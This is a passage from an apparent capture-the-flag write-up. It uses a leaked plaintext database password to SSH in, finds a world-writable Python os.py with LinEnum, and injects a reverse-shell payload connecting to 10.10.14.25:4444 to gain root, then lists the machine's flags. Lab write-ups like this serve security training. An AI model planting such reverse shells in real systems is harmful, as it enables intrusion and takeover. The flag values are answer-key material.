![](https://lh3.googleusercontent.com/cSj8mtb9PmyyZRhM4Ikhn2KnvWbqJiLXqevHPbq6iS7pkZSLyCSpzPnAcoiNvhDwVLwYnuRViJ7eIzhCvDrkt9g3wY0a-NXIDWqCHqyorZS5CUwQiR8vKXWGLKXm-S9sH5H1I6SpVZCBGRs4kPvG0986GPwc_qIi2wkFX58gOhwxRuNkWwITGWPTBKROac4YiIhdtnhSunlKTWmxUIqcBvTKCwwKBUbl4RxLUFtya5C-LdJqp28A2A3qo5Ayzli-jRVE1pqFN_Ff87rEnoLfe2lHq0CWYx-7Czrz5uS_w8fVb6iq2G9YfC6eaRsEY6gPVUW3fV2p4RLZXnOgkeCkiWUDTo2j0X4kyD0BxrNk-sCmweEoHfj3Is8oE5yzxqioIJ-GUQoIa38hvN2VT3gi8bZnvcteh-CV-qQKqS1ASqSuD4LMYyFCMqMMgcQqp77av2LyuRAdbJ0qOPnWrKpW0017xnXOvPR8W6sn2bd_c4OFbQ9a7N_kQfUw77nmtc7EfwLqsk1ZL4fSiW8HNyWrVFcjjylq58TR2es-oWsrCVlUc02HNe7j01vUONdsL9CY7dvmj-wSdLoEbnZU1vhdDvwYBMHT9s-NJ7W7Rw2edb0WcRwn6_Sv4UcnfUaB4nY7XtUf_RMnGMnzdwKazPpAQXiLj7PutdOeZzTruJdtKsPO4-BSXgaw9KE=w749-h175-no)

We located the passwd for user friend on `/var/www/mysql_data.conf` and we SSH into it as user `friend`

```ruby
for development process this is the mysql creds for user friend
db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ
3/3
```
![](https://lh3.googleusercontent.com/3GK64luu8NpgdtG7ESqduNCB37GBSAgzNPboIBvPXyd7BmQjmEj5ux51z32yZN6OOZPh572oMFlMjaNAsfc0c7vxFTSTsBPVdZ4mQps7jhDEx196LK1Z2P5Io7beqkdNqsokPINycx1VH6Pt7sNgQEgCMVeGLjfk8PDbAl5QoTDFr_KMNcWkq1VC865fu01Aq9q8oRwnu1LC-sSMoVUqEllASE-WaJB_sCVhVluVUzvle6ZIP78kmh24BEWY18FGV5Mo3Yy71IbvUqzhyjl_j2CvQ0aUwYdNtgWeM5hRU3KqgKeD0iFeJymYyOukS1KyFv2GFrHOzaNKL1F349yLnqJO5MAWJkpFEC5f_yCSVpCWp8SKlcg_ZlPAyr9X9uWfNTQGD7ONeHMPUWOUkKPCJGhASIrz-qj_OXOkp_NmbZwSDTqZ8v8PbKkGaoSiuLVHBxFnmDtqxVlFmtZE8x_dqird8o9ImXfyRiQmkjR28N0aI5g0Ie--wXnmjr7SYXVlY5ux2R1ZjpphguCk2M_Z5g2MZwRUx0PJkiZ0WBo65IqElpTM6zitJLo3T7nitmJTXuziPOtrGGO7Yl_wLDB0cqpF0e61RI7Z__fklSK0DXdnr7AljGrwwhHAaiE_LbLsOAOzvNJaSMT2OzIURgRf-Yw7DwQ8jzMjd0pYFn5Btzn0BlECCv9V-oM=w649-h171-no)

We run LinuxEnum script with `-t 1` and we got our potential escalation path
```ruby
[-] World-writable files (excluding /proc and /sys):
-rwxrw-rw- 1 nobody nogroup 5493 Nov 7 22:10 /etc/Development/reverseshell.php
-rwxrwxrwx 1 root root 25910 Jan 15 2019 /usr/lib/python2.7/os.py
```
![](https://lh3.googleusercontent.com/kHoJIDL0nmMYnV1GDn7fiQvNWXabrSYUlBiUG3e8De3dYOf1JrGM29b4fPLjjNPhT_3YfxhBMPo5y7aWqYprGTIQXei0_W2jHp9uvVFrfSNZ6eEAjIfQ1azFbm0OQLxYdOA0-UGPTOWlI36AjRkCtaHzQK1spy74Pz3tNC5pjPkVXeH2g0x2tkzJ07Wmdkln3nC60gnTsYK6Zc8DC3QiD5WcU7H10rq_-TYZAnYlgMEPC3h0CfGAXM0PSxvitaVNepV6GYCXMChJKsV6qBYKEI979lsQWZeQQI_tdk1r0wOj58bOlFTmuHC4oytp5HzUQ5r5AhFJZ2AItFuRWscfIpDXYkwiOIpeszDXX04yiBav2y_k_nj4bHayrta0MW2YZ1TAY3vH7N99DUarIIy-C65KGafWS8NKJBWiVJLq32a0PTKKWRUJvgeC4pErrHw5PWzI0d5hRfxekgCUyCBT3-5FO6NhPgi0X94fnQoOVuS90TxqSxcTJyAn1MkHIrqn0c0ZMWXCpiUE6_f0JiEf3Yg2NtLA89pbTgj66zzNl7UX0B_AlJ2dIsfSKUhU8A-78K16J051odIbNgqIm0us4ryEvrDxjuxIl7BhlUxmQwkteoscbWMal9TEBUn_cLi5NoGHHI_GLJ1w9-onZXETPRFKv6vaclnFC5aSnY5UaJtb2lJD-W6xL4g=w798-h77-no)

![](https://lh3.googleusercontent.com/8iZqoZmM6H3AtI8e9_hWdXQW8xKB06Z-2491MgD5oWRH0YSfKUtDFALgsZ0VF-yqFiv6qUs43PJecNn_vsfSxTT2b2mUaW9uOg-yG0r7LC-5vCDnpYx32wE8CZJIv--yYaFu98DgI6Olxmf6C0lE9dxC8xHlAQI816l_WW5uyAQPnQ9sPqBBOavFDjDbE118UBTUNsF7T4bOTPyqxBjr5ILJxWq9oZk8ctQmzw_VdYmluat0zsIpGGTHlyWpfSB6alHuL5bRSs5sF59QHLHgJdZ7_hQmKTH3cfW_AooPLDZYD9Os-6Dpqj2Lu_1OlLKqtivZwRd77O385KLTIq8oY89VV3bUmL5ucR003hRtgrWPUhmXbJ_fsZ3o-opviZ0ESIXlmebhLsD32YdsUoqLcQ0M6KCpILX0ll7YzS4zlLregJNfC8_Mis3qbYK8kvqB3EWYwAqqCc4Caky2-_yPQjWJkmJ3GejpL7xvboLHLV4hvOn76bZRSFuIAU-4DxXJfhetNMKivGvtbOlyIeI4t4DibJJf0RrrKeh9isE0q7BcAEeDcuy7GeroEuwxf3cSSrfly9_xSZzHTq4A25JuMyE0gASm7f9kM9_HZPkhsw-6NcJhcYfIRaLC7uUMGAyQB2HnIvJ0GSaNTXL7Tq7nczVSv_be74Vqq-jf2Q7FnpuZ_nIWwsa91nk=w682-h385-no)

so we modified the **os.py** file to call for a reverse shell 
```ruby
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.25",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```
![](https://lh3.googleusercontent.com/lOJAI2dqne0qFUAWkZSRKgTOelCA-wD7YQOox7bjgELVd2PvmY-fwQWto_A_MY7Mik_tq4jYxVdbyQEejMJGw2HuIMW4sHjj0YEnALEHeM6asG-Qa4bpPIqWClfHGHqFfG9lHrwTwOT4TlbJYBEV5U3mcqfAHQi7pnwe82YI3aVxkKBH9JM5ltKQeXULfHQiVFoeN2b8l6nBP8n7uFYmB0c_O7wlEJ-tMWQG8k_oPcfgyuYo_mK9HZIYEpzGgG1PKMVfOYzkO5OH4tbWTV_ImTmz5oWXr0BX83ej8-oCZrIV_H0HICgWxvkJg7XV2WerBGbJIL2bJDIbr-cQbawxJ8_115lpoYnHZ7SDT1kigu6tp2Z78Ou8dMvR9655Y3ftjH8BU2eoZNBbDElsQqje4xKX5GuLEJvULoCXAOkmjiS23OO7j-6Q0K8RRX1lrmlpcl_FX_B6rSF2BWx5yM-GJ6k-E5wxiIcsYVFhtRJPHH97ex7KU_eJUxIN2f-aRQurLQNzKyyCW25JfF2TEa4-ozG5QgbmW4-eDPAQJCHoD8e5AfpkmJzb9rhSQXr_4GB4U07AFmdImOaUEOMyJsuxuVKUPrvvdgPc-BWyjYUET-mAMFOGF5ImzM2DlvzZ9fLABoG-hHEwRK-bZ-O0o46hti3IPrk1tJVRLTs_17bO62U-kWnUYBFSZrA=w613-h91-no)

and boom we get root!
![](https://lh3.googleusercontent.com/uHYnCo0a_DYr5YKA5NsYApwbZj7FYbpgLinVVUOtpVpJqpDlCFKEdcRJ3dfu_EDgupQqVFBMvOheqeREitb63ZC9qKMTRGTJJjvUHIWJ0qJsovxvcnFNN_PauqsqKQpruihdqrAMJr6dJgoOcwOIn9Rpzqockn-0qWfNE6i2B3M2ajtuYidpTn8Xicljzlm5tGtihAvWFZPqIGwBb3I2WQxvKg95LGE0e8dBh2GGmAEIyQ1rxKm4fPyytMQSleymb3reThsEz7AOkejmY3dhIr3I5i4_-H23-aBXPgZFWVRRkub9SRe6rZ-Op_fbJuj9uzIxPMXKGXioyXSCthzZGDBMaUxyYBT3BMKVaH204cH0N2sTA7jqrtD_iB6g6gj0QLDcBslFcoi4b8L1SVCVhncKput3AaXd4iSh9dM8byrEyhPsDZazPtR2rqvI9ppdMjCXsow4vkfCEkbAXfxdGsPQJBM-8t58cj1h0DlWGbC8InPb59xFXLdTDleqa8jooNc8y6RL_CadN-Avs5S7tNOffiEO12Rww6tylouZNTXYHwFkx5L7I4osgVYimginA97EFPShOVNnQtfCBYyzPs-sOGOzPwcoMjs5NaiGDn1vGcloTwGtNqwEAaS5VnFy8E4AzC87qfjZv9_3qYWnFsaYOHNeQ1JYrlM--zkA3SeS_9nl6THd0cQ=w613-h206-no)

# FLAGS
```ruby
ROOT  "b0e6c60b82cf96e9855ac1656a9e90c7"
USER  "a9ed20acecd6c5b6b52f474e15ae9a11"
```

